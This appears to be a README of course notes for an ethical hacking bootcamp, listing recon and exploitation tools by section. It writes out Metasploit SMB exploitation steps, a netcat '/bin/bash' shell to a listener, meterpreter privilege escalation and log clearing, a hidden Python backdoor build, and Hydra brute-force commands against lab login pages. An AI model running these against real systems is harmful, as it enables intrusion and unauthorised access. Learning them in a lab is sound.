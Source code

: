 # Complete Ethical Hacking Bootcamp 2021: Zero to Mastery

https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery

## Section 4: Reconnaissance & Information Gathering
* ping
* whois
* nslookup
* https://ipinfo.info/
* whatweb
* theHarvester
* hunter.io
* sherlock

## Section 5: Scanning
* metasploitable
* arp
* netdiscover
* nmap

## Section 7: Vulnerability Analysis
* nmap scripts
* google search exploit
* searchsploit
* nessus

## Section 8: Exploitation & Gaining Access
* metasploit framework
  * msfconsole
```
msf6 > show exploits
msf6 > use exploits/windows/smb/ms06_640_netapi
msf6 exploit(windows/smb/ms06_640_netapi) > show info
msf6 exploit(windows/smb/ms06_640_netapi) > show options
msf6 exploit(windows/smb/ms06_640_netapi) > set RHOSTS 192.168.1.26
msf6 exploit(windows/smb/ms06_640_netapi) > show payloads
msf6 exploit(windows/smb/ms06_640_netapi) > set payload windows/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms06_640_netapi) > show targets
msf6 exploit(windows/smb/ms06_640_netapi) > set target 3
msf6 exploit(windows/smb/ms06_640_netapi) > exploit
msf6 exploit(windows/smb/ms06_640_netapi) > run
msf6 > search vsftpd
msf6 > sessions
msf6 > sessions -i <id>
```
* netcat
```
# Server
$ nc -lvp 12345
# Client
$ nc -e /bin/bash 192.168.1.9 12345
```
* telnet
* search routersploit

## Section 9: SMBGhost CVE 2020-0796 - Windows 10 Manual Exploitation
* https://rufus.ie/

## Section 10: Gaining Access (Viruses, Trojans, Payloads...)
* Msfvenom
```
$ msfvenom -p ...
$ msfvenom --list encoders
```
* virustotal
* veil
* TheFatRat
* Hexeditor

## Section 11: Post Exploitation - Elevating Privileges, Extracting Data, Running Keyloggers ..
* meterpreter (support both linux and window commands)
```
meterpreter > help
meterpreter > background
meterpreter > guid
meterpreter > getuid
meterpreter > pwd
meterpreter > dir
meterpreter > ls
meterpreter > shell
meterpreter > getsystem
meterpreter > search -f *.jpg
meterpreter > clearev
meterpreter > run post/windows/gather/enum_applications
```
* search bypassuac
```
msf6 > search bypassuac
```
* search persistence
```
msf6 > search persistence
```

## Section 12: Python Coding Project #2 - Backdoor
* run at server
```
$ python3 server.py
```
* run at client
```
$ python3 backdoor.py
```
* Compile to window exe file
```
$ pyinstaller backdoor.py --onefile --noconsole
```

## Section 13: Website Application Penetration Testing
* dirb
* burpsuite
* ShellShock
* Command Injection
* Reflected XSS
* Stored XSS
* HTML Injection
* SQL Injection
* CSRF Vulnerability
* Hydra Bruteforce Attack
```bash
hydra -h
hydra 192.168.1.9 http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&Login=submit:Login failed" -L usernames.txt -P passwords.txt
# Include cookie values
hydra 192.168.1.9 http-get-form "/dvwa/valnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H-Cookie: security=low; PHPSESSID=de86e1e9f8e1f54dfed367fd82665aaa" -L usernames.txt -P passwords.txt
```

